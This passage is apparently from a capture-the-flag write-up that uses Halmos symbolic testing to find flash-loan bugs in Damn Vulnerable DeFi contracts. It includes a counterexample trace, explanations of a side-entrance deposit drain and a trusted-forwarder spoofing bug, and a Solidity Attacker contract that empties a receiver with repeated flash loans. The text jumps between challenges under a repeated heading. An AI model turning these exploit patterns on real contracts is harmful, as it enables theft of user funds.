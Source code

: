 ```javascript
halmos_ETH_val_uint256_d146144_13 = 0x0000000000000000000000000000000000000000000000000000000000000000
halmos_selector_bytes4_2929a1b_18 = withdraw
halmos_selector_bytes4_321817f_06 = flashLoan
halmos_selector_bytes4_487ba75_12 = deposit
halmos_selector_bytes4_780a835_24 = 0x00000000
halmos_target_address_742d8e0_14 = 0x00000000000000000000000000000000aaaa0003
halmos_target_address_8fb3daf_02 = 0x00000000000000000000000000000000aaaa0003
halmos_target_execute_address_b2f1b7a_08 = 0x00000000000000000000000000000000aaaa0003
halmos_target_receive_address_d6b1aa3_20 = 0x00000000000000000000000000000000aaaa0003
p_amount_uint256_b5e253c_05 = 0x000000000000000000000000000000000000000000000016b9e8000000000000
[FAIL] check_sideEntrance() (paths: 3334, time: 102.26s, bounds: [])
```
Okay, that was pretty easy. Let's analyze a counterexample.
## Counterexamples analysis
The counterexample clearly shows the sequence of what happened. 
SideEntranceLenderPool::flashLoan was called. pool called the execute() function from our SymbolicAttacker. He, in turn, using borrowed funds (and a little of his own), put them on deposit in the same pool. flashLoan ended successfully, as the balance of the pool at the time of the end of flashLoan became even larger. After that, the Attacker simply withdrew all the funds from the deposit with the withdraw() function in the second transaction. 



## Counterexamples analysis
This time we will not analyze each line of the counterexamples in detail. Note that 2 bugs were found here at once.
The mechanics of the first bug are quite simple - we launch **flashLoan**, as the receiver we specify the **FlashLoanReceiver** contract, which we do not own, thereby emptying it by 1 **WETH** per transaction. Precisely because it takes 10 such transactions to empty this balance to 0 - Halmos failed with a clearer invariant.
The mechanics of the second bug are very interesting. The fact is that for this we need to fulfill 2 conditions: run **withdraw** with **Forwarder** as a **msg.sender**, but at the same time bypass the concatenation of our address at the end of the **payload**:
```solidity
bytes memory payload = abi.encodePacked(newdata, request.from);
...
target.call(payload);
```
```solidity
if (msg.sender == trustedForwarder && msg.data.length >= 20) {
    return address(bytes20(msg.data[msg.data.length - 20:]));
}
```
And Halmos did find a scenario: it needs to be called from under multicall, which will allow us to withdraw on behalf of the **Forwarder** (via **delegateCall**), while withdrawing funds to an arbitrary receiver, emptying the balance of an arbitrary address, inserting it at the end of data. For this we needed the hint from **svm.createBytes()** earlier.
## Using a counterexample
Let's use the **attacker** to devastate the **FlashLoanReceiver**:
```solidity
pragma solidity =0.8.25;

import {NaiveReceiverPool, WETH} from "../../src/naive-receiver/NaiveReceiverPool.sol";
import {FlashLoanReceiver} from "../../src/naive-receiver/FlashLoanReceiver.sol";

contract Attacker {
    function attack(NaiveReceiverPool pool, FlashLoanReceiver receiver, WETH weth) public {
        for (uint256 i = 0; i < 10; i++) {
            pool.flashLoan(receiver, address(weth), 1, "b1bab0ba");
        }
    }
```